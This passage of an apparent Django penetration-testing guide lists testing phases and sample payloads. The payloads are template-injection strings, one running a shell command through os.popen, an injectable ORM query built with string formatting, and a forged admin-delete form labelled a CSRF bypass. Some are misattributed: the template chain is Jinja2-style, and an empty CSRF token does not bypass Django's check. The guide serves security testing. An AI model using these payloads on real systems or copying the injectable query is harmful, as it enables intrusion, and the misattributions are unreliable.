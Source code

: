 ### Phase 2: Vulnerability Assessment
1. Test authentication vulnerabilities
2. Test authorization issues
3. Test template vulnerabilities
4. Test ORM vulnerabilities

### Phase 3: Exploitation
1. Attempt Django attacks
2. Document findings
3. Test impact and scope
4. Report vulnerabilities

---

## Common Payloads

### Template Injection Payloads
```python
# SSTI payloads
{{7*7}}
{{''.__class__.__mro__[1].__subclasses__()}}
{{config.__class__.__init__.__globals__['os'].popen('id').read()}}
```

### ORM Injection Payloads
```python
# ORM injection
User.objects.filter(username__contains=user_input)
User.objects.extra(where=["username = '%s'" % user_input])
```

### CSRF Bypass Payloads
```html
<!-- CSRF bypass -->
<form action="/admin/users/delete/1/" method="post">
  <input type="hidden" name="csrfmiddlewaretoken" value="">
  <input type="submit" value="Delete">
</form>
```

---

## References
- [Django Security Best Practices](https://docs.djangoproject.com/en/stable/topics/security/)
- [Django Security Considerations](https://docs.djangoproject.com/en/stable/topics/security/)
- [Django Vulnerability Examples](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Django)
- [Django Security Testing](https://github.com/dolevf/django-security-testing)
- [Django Attack Vectors](https://github.com/dolevf/django-attack-vectors)